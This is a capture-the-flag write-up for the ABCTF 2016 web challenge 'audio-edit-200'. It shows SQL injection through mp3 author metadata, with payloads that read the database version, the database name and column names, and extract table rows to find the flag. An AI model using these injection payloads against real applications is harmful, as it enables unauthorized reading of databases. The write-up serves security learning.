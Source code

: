# ABCTF 2016 : audio-edit-200

**Category:** Web
**Points:** 200
**Solves:** 21
**Description:**

I made a cool site to edit audio files. [Can you exploit it?](http://107.170.122.6/audioedit/)

## Write-up

The site offers user to upload an mp3 and therewith do some modifications.
In order to save the uploaded file it's inserted into a database and when
requested it shows 'Author', 'Title' and the filename.
The latter is created as the sha1sum of the mp3 content.

Some test quickly revealed the input of 'Author' and 'Title' in the mp3-metadate aren't verified
and offer a SQL-injection vulnerability.

We figured the insertion statement looked smth. like this:
    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);

In order to an SQL-injection we have to create a special author and title field.
I used easyTAG but you can use whatever you like;-)
In order to do an injection and maintain a valid INSERTION statement you can create an mp3
with the following metadata:
  * title  = "" (leer)
  * author = a', (SELECT @@version))-- -b


Which creates the following statement
    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);

The 'a' in the beginng and the 'b' in the end where necessary because first an last character where
discarded... why so ever...

This gave us the database version: 5.5.49-0ubuntu0.14.04.1

Next we wanted to know the database name:
  * author = a', (SELECT database()))-- -b:
    audioedit

And of course the column names:
  * author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
  * with x in range(0,3):
    id
    file
    author
    title

So finally we wanted see whats in there:
    * author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a

... but it gaves us an insertion error!:(

The problem is you can't select from a database you inserting at the same time... Thanks to Arxenix!:)

So we got around that using AS:
    * author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    ABCTF
    * author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    flag
    * author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    supersecretflagf1le.mp3

And visited the corresponding site: http://107.170.122.6/audioedit/edit.php?file=supersecretflagf1le.mp3
    
Setting the visualisation to 'Sonogram' finally showed the flag:
    ABCTF{m3t4_inj3cti00n}



## Other write-ups and resources

* http://countersite.org/articles/web-vulnerability/105-audioedit-writeup.html
